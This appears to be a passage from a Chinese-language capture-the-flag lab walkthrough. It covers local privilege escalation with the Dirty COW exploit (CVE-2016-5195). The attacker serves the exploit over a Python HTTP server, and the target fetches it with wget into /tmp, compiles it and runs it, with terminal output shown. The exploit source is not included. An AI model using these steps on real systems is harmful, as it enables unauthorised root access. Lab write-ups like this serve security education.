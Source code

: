   
    Exploit: Linux Kernel 2.6.22 < 3.9 (x86/x64) - 'Dirty COW /proc/self/mem' Race Condition Privilege Escalation (SUID Method)
        URL: https://www.exploit-db.com/exploits/40616
       Path: /usr/share/exploitdb/exploits/linux/local/40616.c
      Codes: CVE-2016-5195
   Verified: True
  File Type: C source, ASCII text
  Copied to: /home/kali/Desktop/walkthroughs/CF_03/40616.c
  ```

- 本地开启简易服务器`python -m http.server 80`

- 靶机切换到`/tmp`目录下-->下载-->编译-->执行

- ```shell
  [smbuser@fileserver tmp]$ wget http://192.168.2.2/40616.c
  --2023-08-24 04:03:43--  http://192.168.2.2/40616.c
  Connecting to 192.168.2.2:80... connected.
  HTTP request sent, awaiting response... 200 OK
  Length: 4803 (4.7K) [text/x-csrc]
  Saving to: ‘40616.c’
  
  100%[=========================================================================>] 4,803       --.-K/s   in 0s      
  
  2023-08-24 04:03:43 (973 MB/s) - ‘40616.c’ saved [4803/4803]
  
  [smbuser@fileserver tmp]$ gcc 40616.c -o 40616 -pthread
  40616.c: In function ‘procselfmemThread’:
  40616.c:99:9: warning: passing argument 2 of ‘lseek’ makes integer from pointer without a cast [enabled by default]
           lseek(f,map,SEEK_SET);
           ^
  In file included from 40616.c:28:0:
  /usr/include/unistd.h:334:16: note: expected ‘__off_t’ but argument is of type ‘void *’
   extern __off_t lseek (int __fd, __off_t __offset, int __whence) __THROW;
                  ^
  [smbuser@fileserver tmp]$ ls -lhai
  total 876K
  100663425 drwxrwxrwt.  9 root    root    4.0K Aug 24 04:04 .
        128 dr-xr-xr-x. 18 root    root    4.0K Feb 18  2020 ..
  101010439 -rwxrwxr-x   1 smbuser smbuser  14K Aug 24 04:04 40616
  101010432 -rw-rw-r--   1 smbuser smbuser 4.7K Aug 23 20:03 40616.c
  100966398 -rw-rw-r--   1 smbuser smbuser  10K Aug 23 20:01 40847.cpp
  100974275 drwxrwxrwt.  2 root    root       6 Feb 18  2020 .font-unix
   34310886 drwxrwxrwt.  2 root    root       6 Feb 18  2020 .ICE-unix
  100663426 -rwxrwxr-x   1 smbuser smbuser 829K Aug 20 09:56 lp.sh
    1009933 drwx------   3 root    root      16 Aug 24 01:31 systemd-private-415906ead004447c96a99853e16102e3-httpd.service-Zhx0Rm                                                                                                      
    1009923 drwx------   3 root    root      16 Aug 24 01:30 systemd-private-c35961de449a4845a877a2ab75eeaeda-httpd.service-qsV91o                                                                                                      
     191607 drwxrwxrwt.  2 root    root       6 Feb 18  2020 .Test-unix
     191606 drwxrwxrwt.  2 root    root       6 Feb 18  2020 .X11-unix
   67574086 drwxrwxrwt.  2 root    root       6 Feb 18  2020 .XIM-unix
  [smbuser@fileserver tmp]$ ./40616 
  DirtyCow root privilege escalation
  Backing up /usr/bin/passwd.. to /tmp/bak
  Size of binary: 27832
  Racing, this may take a while..
  thread stopped
  thread stopped
  ```